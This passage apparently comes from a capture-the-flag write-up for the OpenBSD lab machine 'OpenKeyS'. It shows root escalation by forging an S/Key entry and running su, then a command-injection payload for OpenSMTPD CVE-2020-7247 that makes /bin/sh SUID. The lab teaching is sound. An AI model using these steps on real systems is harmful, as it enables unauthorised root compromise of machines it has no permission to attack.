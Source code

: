 #### Execute

With a shell in the `auth` group, I’ll write the file and change the
permissions to 600:

    
    
    openkeys$ echo 'root md5 0100 obsd91335 8b6d96e0ef1b1c21' > /etc/skey/root
    openkeys$ chmod 0600 /etc/skey/root
    

I actually can’t look at the result, but it is in there. Now I can run `su` to
get a shell as root. I’ll use `-l` to actually login, `-a skey` to specify
S/Key auth. The POC also uses `env -i TERM=vt220` to clear the environment and
then set the terminal on running. I can run without that, but then I’m
prompted for the terminal type. When prompted for the password, I’ll enter
“EGG LARD GROW HOG DRAG LAIN”, because I know from the script that is what is
expected for the seed 8b6d96e0ef1b1c21. Then it returns a root shell.

    
    
    openkeys$ env -i TERM=vt220 su -l -a skey
    otp-md5 99 obsd91335
    S/Key Password:                                                                                         
    openkeys#
    

## Beyond Root

### Unintended Root - CVE-2020-7247

A few days after this box was submitted, a new CVE for OpenBSD was released,
[CVE-2020-7247](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-
opensmtpd.txt), allowing for command injection into the SMTP daemon. OpenKeyS
is vulnerable to it. I’ll connect to port 25 on localhost. The connection will
hang for several minutes while it tries to resolve a DNS query to 8.8.8.8.
Eventually, it will return with it’s 220 statement. I’ll identify as jennifer,
and then send a malicious `MAIL FROM:` with a command injection. I’ll find a
valid recipient (jennifer again), and then send an empty email:

    
    
    openkeys$ nc 127.0.0.1 25 
    220 openkeys.htb ESMTP OpenSMTPD
    HELO jennifer
    250 openkeys.htb Hello jennifer [127.0.0.1], pleased to meet you
    MAIL FROM:<;chmod u+s /bin/sh;>
    250 2.0.0 Ok
    RCPT TO:<jennifer>
    250 2.1.5 Destination address valid: Recipient ok
    DATA
    354 Enter mail, end with "." on a line by itself
    .
    250 2.0.0 fffb5159 Message accepted for delivery
    

I’m very limited in what kind of command injections I can do, the maximum
length for the address is 64 characters, and any characters in
`!#$%&'*?``{|}~` are escaped to a `:`. The simple payload above works nicely.
After running it, I’ll Ctrl-c to kill the connection to SMTP, and now
`/bin/sh` is SUID:
